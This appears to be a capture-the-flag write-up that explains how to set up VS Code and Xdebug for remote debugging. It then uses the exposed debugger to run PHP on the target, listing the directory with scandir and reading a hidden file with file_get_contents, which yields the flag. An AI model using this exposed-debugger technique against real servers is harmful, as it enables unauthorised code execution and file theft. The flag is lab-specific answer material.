



Here we need to first set our `vscode` to work with x-remote debug.

I'm also use this chrome extension: https://chromewebstore.google.com/detail/xdebug-helper-by-jetbrain/aoelhdemabeimdhedkidlnbkfhnhgnhm

You need to download this extension https://marketplace.visualstudio.com/items?itemName=xdebug.php-debug for `vscode`.

Then, we need to set `launch.json`, give here the path to your workspace of the `vscode` project. (path: .vscode/launch.json, in root folder of the project)


These are the contents:
```json
{
    // Use IntelliSense to learn about possible attributes.
    // Hover to view descriptions of existing attributes.
    // For more information, visit: https://go.microsoft.com/fwlink/?linkid=830387
    "version": "0.2.0",
    "configurations": [
        {
            "name": "remote XDebug",
            "type": "php",
            "request": "launch",
            "hostname": "0.0.0.0",
            "port": 9000,
            "log": true,
            "stopOnEntry": true,
            "pathMappings": {
                "C:\\Users\\avish\\git\\CTF_writeups": "${workspaceFolder}"
            }
        }
    ]
}
```

Then, we need to set port-farwarding (if needed, if you behind a NAT) to port 9000. (because it's old version of xdebug, new version use 9003).
This might be a bit complicated, you need to access your router and set it manually.

Here you can see how I set it in my router.


Also, you might need to add `inbound rule` in you firewall defender, for port 9000, windows or mac. just check how to do this. 

We send this command:
```
scandir('.');
```
Then, we get this:


So, the filename is: `c491a08d66309dc3e4dd1e040c178022.txt`
We send this command:
```
file_get_contents("c491a08d66309dc3e4dd1e040c178022.txt");
```
and we get this:


So, the password is: `0389c30313ae01b06d7c8f962f611c6b`

**Flag:** ***`0389c30313ae01b06d7c8f962f611c6b`***
